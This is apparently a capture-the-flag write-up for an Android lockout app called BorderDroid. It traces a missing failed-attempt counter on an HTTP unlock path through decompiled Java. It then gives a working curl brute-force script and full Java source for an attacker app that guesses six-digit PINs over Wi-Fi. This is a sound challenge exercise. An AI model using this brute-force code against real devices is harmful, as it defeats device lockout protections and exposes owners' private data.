


# BorderDroid Challenge 5

## Overview

BorderDroid provides protection against unauthorized device seizures and searches. With the press of a button, BorderDroid activates a secure kiosk mode with a convincing but impossible-to-unlock interface that reveals nothing about your actual device contents.

BorderDroid's proprietary lockout system ensures that after multiple failed attempts, all sensitive traces of the product are automatically wiped, leaving no trace for unauthorized parties. The dashboard lets you control security features, while BorderDroid's secret emergency exit protocol allows only the phone's owner to regain access.

## Objective

The objective is to find a way to bypass BorderDroid's security mechanisms. The attack should not require root permissions on the device. USB debugging enabled can be used for reconnaissance, but to make it realistic, the challenge solution should stick to "non-USB attacks" for this challenge. All other "channels" are fair game.

## Jadx-gui

Using jadx-gui, the following was discovered about the app, leading to a big vulnerability:

1) The "normal" pin entry path tracks attempts and after 10 failed attempts, it wipes the device.

```Java
    private void handleAuth(String str) {
        if (this.pinStorage.verifyPin(this, str)) {
            Log.i(TAG, "Auth: PIN Correct.");
            ModernToast.showSuccess(this, "PIN Correct", 0);
            this.attempts = 0;
            goToDashboard();
            return;
        }
        this.attempts++;
        Log.w(TAG, "Auth: Wrong PIN. Attempt " + this.attempts + "/10");
        ModernToast.showError(this, "Wrong PIN. Attempt " + this.attempts + "/10", 0);
        this.pinInput.setText("");
        if (this.attempts >= 10) {
            Log.w(TAG, "Auth: Maximum attempts reached. Starting wipe sequence.");
            startWipeSequence();
        }
    }
```

2) BorderDroid creates the `HttpUnlockService` that listens on port 8080. This is the emergency exit protocol. On a pin request, it does a broadcast to its `RemoteTriggerReceiver` to validate the PIN.

```Java
        private void broadcastVulnerableUnlockIntentWithPin(String str) {
            Intent intent = new Intent(RemoteTriggerReceiver.ACTION_PERFORM_REMOTE_TRIGGER);
            intent.putExtra(RemoteTriggerReceiver.EXTRA_TRIGGER_PIN, str);
            intent.setClassName(this.context, RemoteTriggerReceiver.class.getName());
            this.context.sendBroadcast(intent);
            Log.i(HttpUnlockService.TAG, "Broadcast sent for remote trigger: " + intent.getAction());
        }
```

3) This is the vulnerability. The receiver verifies the supplied PIN but does not increment or enforce the failed-attempt counter used by the normal PIN-entry path. This leads to the ability to brute-force attack the app with unlimited PIN attempts.

```Java
    public void onReceive(Context context, Intent intent) {
        String stringExtra;
        if (!ACTION_PERFORM_REMOTE_TRIGGER.equals(intent.getAction()) || (stringExtra = intent.getStringExtra(EXTRA_TRIGGER_PIN)) == null || stringExtra.isEmpty()) {
            return;
        }
        try {
            if (new PinStorage().verifyPin(context, stringExtra)) {
                performUnlockActions(context);
                return;
            }
            Bundle extras = intent.getExtras();
            if (extras != null) {
                for (String str : extras.keySet()) {
                }
            }
        } catch (Exception unused) {
        }
    }
  ```

  `PinStorage.verifyPin()` performs an exact comparison against the stored six-digit PIN. The weakness is therefore not the PIN verification itself, but the absence of failed-attempt accounting on the remote-trigger path.

### Verification of Analysis

Using a bash script and ADB port forwarding, the PIN can be brute-forced with as many guesses as it takes. The bash increments a PIN counter and uses curl to send the request:

> **Note:**  ADB port forwarding is used only to validate the analysis. The final exploit sends traffic directly over Wi-Fi between two devices/emulators and does not use ADB as the attack channel.

Set up a port forward to the victim device:

```bash
adb forward tcp:8080 tcp:8080
```

Run the following Bash script until the correct PIN is guessed, unlocking the device:

```bash
#!/bin/bash

URL="http://127.0.0.1:8080/unlock"
previous=""

for ((n=0; n<=999999; n++)); do
    pin=$(printf "%06d" "$n")

    printf "\rTrying %s" "$pin"

    if ! curl -s \
        --connect-timeout 1 \
        --max-time 2 \
        -o /dev/null \
        -H 'Content-Type: application/json' \
        --data "{\"pin\":\"$pin\"}" \
        "$URL"
    then
        echo
        echo "HTTP service is no longer reachable."
        echo "Likely PIN: $previous"
        exit 0
    fi

    previous="$pin"
done

echo
echo "No PIN found."
```

## Exploit Design

The exploit design is straightforward. The design translates the Bash validation script into an Android Java application. The biggest difference is that the attacker app will be installed on a separate emulator and will attack the victim device over Wi-Fi. This means the attacker app will have a GUI element to enter the victim IP address.

Because the HTTP unlock path dispatches PIN validation through an asynchronous broadcast, a short delay was added between attempts so the receiver had time to process each candidate before the next request was sent. The PoC also logs each attempted PIN to Logcat for visibility. This adds some overhead, but the delay itself is the dominant performance cost and was acceptable for demonstrating the vulnerability reliably. For this proof of concept, a fixed delay is acceptable, although a more robust implementation would avoid timing-dependent sleeps.

## Exploit Code

The following code highlights the exploit process.

### AndroidManifest.xml

Declare Internet permission, to make network calls:

```XML
    <uses-permission android:name="android.permission.INTERNET" />
```

Add cleartext (HTTP) calls to the Application element:

```XML
    <application
        android:usesCleartextTraffic="true"
    ....
```

### `MainActivity.java`

Once the victim IP address is entered on the App and the `start` button is clicked, the main worker function is `testPins()`:

```java
private void testPins(String ip) {

        String targetUrl = "http://" + ip + ":8080/unlock";
        String previous = "";

        Log.i(TAG, "Target: " + targetUrl);

        for (int n = 0; n <= 999999; n++) {

            String pin = String.format("%06d", n);

            // Log every attempt.
            Log.d(TAG, "Trying PIN: " + pin);

            runOnUiThread(() ->
                    statusTextView.setText("Trying: " + pin)
            );

            String json = "{\"pin\":\"" + pin + "\"}";

            HttpURLConnection connection = null;

            try {

                URL url = new URL(targetUrl);

                connection =
                        (HttpURLConnection) url.openConnection();

                connection.setConnectTimeout(1000);
                connection.setReadTimeout(2000);

                connection.setRequestMethod("POST");

                connection.setRequestProperty(
                        "Content-Type",
                        "application/json"
                );

                // Don't reuse the HTTP connection.
                connection.setRequestProperty(
                        "Connection",
                        "close"
                );

                connection.setDoOutput(true);

                byte[] body =
                        json.getBytes(StandardCharsets.UTF_8);

                connection.setFixedLengthStreamingMode(body.length);

                try (OutputStream outputStream =
                             connection.getOutputStream()) {

                    outputStream.write(body);
                    outputStream.flush();
                }

                /*
                 * Wait for the HTTP response.
                 *
                 * The response itself does NOT tell us whether the
                 * PIN was correct. The challenge queues an Android
                 * broadcast asynchronously.
                 */
                int responseCode = connection.getResponseCode();

                Log.d(
                        TAG,
                        "PIN " + pin +
                                " returned HTTP " + responseCode
                );

                /*
                 * This PIN was successfully submitted.
                 */
                previous = pin;

            } catch (Exception e) {

                /*
                 * Only consider the previous PIN after we have
                 * successfully submitted at least one candidate.
                 */
                Log.e(
                        TAG,
                        "HTTP service unavailable while trying "
                                + pin,
                        e
                );

                String likelyPin = previous;

                runOnUiThread(() -> {

                    if (!likelyPin.isEmpty()) {
                        statusTextView.setText(
                                "Likely PIN: " + likelyPin
                        );

                        Log.i(
                                TAG,
                                "Likely PIN: " + likelyPin
                        );
                    } else {
                        statusTextView.setText(
                                "Connection failed. Check Logcat."
                        );
                    }

                    startButton.setEnabled(true);
                });

                return;

            } finally {

                if (connection != null) {
                    connection.disconnect();
                }
            }

            /*
             * The HTTP handler calls sendBroadcast(), which is
             * asynchronous. Give the receiver time to validate
             * this PIN and stop the service before sending the
             * next candidate.
             */
            try {
                Thread.sleep(100);
            } catch (InterruptedException e) {
                Thread.currentThread().interrupt();
                return;
            }
        }

        Log.i(TAG, "No PIN found.");

        runOnUiThread(() -> {
            statusTextView.setText("No PIN found.");
            startButton.setEnabled(true);
        });
    }
```

## Exploitation Process

Install the victim app on a non-rooted emulator - Pixel 8 API 35 device:

```bash
adb install -r -g -t BorderDroid.apk
```

Install the exploit app on a second non-rooted emulator:

```bash
adb install -r -t exploit-debug.apk
```

List the connected emulators, then obtain the victim device's Wi-Fi IP address:

```bash
```bash
adb devices
```

```bash
List of devices attached
emulator-5554    device
emulator-5556    device
```

Get the IP address of the victim device:

```bash
adb -s emulator-5554 shell ip addr show wlan0
```

<div style="page-break-after: always; break-after: page;"></div>

Run logcat with the tag `PinTester`:

```bash
adb -s emulator-5556 logcat -s PinTester 
```

<div style="page-break-after: always; break-after: page;"></div>

Next, click the exploit app to start, fill in the victim IP address and press `Start`. 

<figure style="margin: 0; width: 400px;">
  
  <figcaption style="text-align: center;">
    <em>Figure 1: Enter victim IP address.</em>
  </figcaption>
</figure>

<div style="page-break-after: always; break-after: page;"></div>

### Successful Result

The brute-force attack eventually reaches the correct PIN, causing BorderDroid to exit kiosk mode and return to the dashboard.

<figure style="margin: 0; width: 800px;">
  
  <figcaption style="text-align: center;">
    <em>Figure 2: Brute-force attack success.</em>
  </figcaption>
</figure>

